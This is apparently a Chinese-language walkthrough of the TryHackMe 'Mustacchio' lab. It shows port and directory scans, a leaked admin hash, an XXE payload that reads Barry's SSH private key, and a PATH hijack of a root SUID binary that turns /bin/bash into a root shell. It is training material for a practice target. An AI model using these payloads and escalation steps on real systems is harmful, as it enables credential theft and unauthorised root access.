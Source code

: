 ```yaml
---
sidebar_position: 34
tags: [Easy, Linux, 密码破解, XXE, PATH-Linux]
title: Mustacchio
description: Mustacchio
sidebar_label: Mustacchio
slug: /tryhackme/34
---
```

# Mustacchio
## 端口扫描
```bash
root@ip-10-10-22-151:~# nmap -sT  -p- --min-rate 1000 10.10.38.75

Starting Nmap 7.60 ( https://nmap.org ) at 2023-08-22 12:39 BST
Nmap scan report for ip-10-10-38-75.eu-west-1.compute.internal (10.10.38.75)
Host is up (0.00035s latency).
Not shown: 65532 filtered ports
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8765/tcp open  ultraseek-http
MAC Address: 02:FF:EA:DF:6A:45 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 100.65 seconds
root@ip-10-10-22-151:~# nmap -sTCV  -p 22,80,8765 --min-rate 1000 10.10.38.75

Starting Nmap 7.60 ( https://nmap.org ) at 2023-08-22 12:42 BST
Nmap scan report for ip-10-10-38-75.eu-west-1.compute.internal (10.10.38.75)
Host is up (0.00017s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 58:1b:0c:0f:fa:cf:05:be:4c:c0:7a:f1:f1:88:61:1c (RSA)
|   256 3c:fc:e8:a3:7e:03:9a:30:2c:77:e0:0a:1c:e4:52:e6 (ECDSA)
|_  256 9d:59:c6:c7:79:c5:54:c4:1d:aa:e4:d1:84:71:01:92 (EdDSA)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Mustacchio | Home
8765/tcp open  http    nginx 1.10.3 (Ubuntu)
|_http-server-header: nginx/1.10.3 (Ubuntu)
|_http-title: Mustacchio | Login
MAC Address: 02:FF:EA:DF:6A:45 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## 80 - HTTP
访问 80 站点

![20240601191231](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240601191231.png)

进行目录扫描

```bash
root@ip-10-10-22-151:~# gobuster dir -u http://10.10.38.75/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,txt,html
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.38.75/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,txt,html
[+] Timeout:        10s
===============================================================
2023/08/22 12:48:33 Starting gobuster
===============================================================
/images (Status: 301)
/index.html (Status: 200)
/blog.html (Status: 200)
/about.html (Status: 200)
/contact.html (Status: 200)
/gallery.html (Status: 200)
/custom (Status: 301)
/robots.txt (Status: 200)
/fonts (Status: 301)
/server-status (Status: 403)
===============================================================
2023/08/22 12:52:22 Finished
===============================================================
```

访问 /custom 时我发现一个 User.bak 文件

![20240601191253](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240601191253.png)

我将其下载下来, 查看发现它是一个账号, 并且密码也是加密得, 所以我就先解密

```bash
root@ip-10-10-22-151:~/Downloads# strings users.bak 
SQLite format 3
tableusersusers
CREATE TABLE users(username text NOT NULL, password text NOT NULL)
]admin1868e36a6d2b17d4c2745f1659433a54d4bc5f4b
```

![20240601191311](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240601191311.png)

### 8765

这是一个登陆页面, 使用上面得到得内容进行登陆发现可以登陆

![20240601191327](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240601191327.png)

登陆后页面显示为一个提交评论,

![20240601191339](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240601191339.png)

我在这里随意得提交一些数据, 发现下面出现了另一些内容

![20240601191352](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240601191352.png)

这表明可能是 XXE 漏洞, 但是我不知道上传得格式是什么? 我查看网页源代码发现

- 一个 bak 文件, 下载下来后发现正是我们需要得 XML 格式, 所以可以肯定是 XXE 漏洞
- 一个用户需要使用密钥登陆

![20240601191406](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240601191406.png)

```bash
root@ip-10-10-22-151:~/Downloads# cat dontforget.bak 
<?xml version="1.0" encoding="UTF-8"?>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>his paragraph was a waste of time and space. If you had not read this and I had not typed this you and I could\u2019ve done something more productive than reading this mindlessly and carelessly as if you did not have anything else to do in life. Life is so precious because it is short and you are being so careless that you do not realize it until now since this void paragraph mentions that you are doing something so mindless, so stupid, so careless that you realize that you are not using your time wisely. You could\u2019ve been playing with your dog, or eating your cat, but no. You want to read this barren paragraph and expect something marvelous and terrific at the end. But since you still do not realize that you are wasting precious time, you still continue to read the null paragraph. If you had not noticed, you have wasted an estimated time of 20 seconds.</com>
</comment>
```
根据此 XML 构建文件读取 payload , 读取 Barry  得 id_rsa

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY example SYSTEM "/home/barry/.ssh/id_rsa"> ]>
<comment>
  <name>&example;</name>
  <author>Barry Clad</author>
  <com></com>
</comment>
```

![20240601191426](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240601191426.png)

然后我使用该私钥进行登陆, 告诉我需要密码, 所以我开始破解

![20240601191436](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240601191436.png)

## 后渗透
### Barry

![20240601191451](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240601191451.png)

接着我在 joe 用户家目录发现一个 root 的 SUID  程序

![20240601191502](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240601191502.png)

通过分析该程序, 我发现其使用了 tail 命令但是没有使用绝对路径

![20240601191513](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240601191513.png)

### Barry --> root

通过修改环境变量来获取 root 权限
```bash

barry@mustacchio:/home/joe$ cd /tmp
barry@mustacchio:/tmp$ cat << EOF > tail
> #!/bin/bash
> chmod u+s /bin/bash
> EOF
barry@mustacchio:/tmp$ chmod +x tail 
barry@mustacchio:/tmp$ cat tail 
#!/bin/bash
chmod u+s /bin/bash
barry@mustacchio:/tmp$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
barry@mustacchio:/tmp$ export PATH=$PWD:$PATH
barry@mustacchio:/tmp$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
barry@mustacchio:/tmp$ cd /home/joe/
barry@mustacchio:/home/joe$ ls
live_log
barry@mustacchio:/home/joe$ ls -al /bin/bash
-rwxr-xr-x 1 root root 1037528 Jul 12  2019 /bin/bash
barry@mustacchio:/home/joe$ ./live_log 
Live Nginx Log Readerbarry@mustacchio:/home/joe$ 
barry@mustacchio:/home/joe$ ls -al /bin/bash
-rwsr-xr-x 1 root root 1037528 Jul 12  2019 /bin/bash
barry@mustacchio:/home/joe$ /bin/bash -p
bash-4.3# id
uid=1003(barry) gid=1003(barry) euid=0(root) groups=1003(barry)
```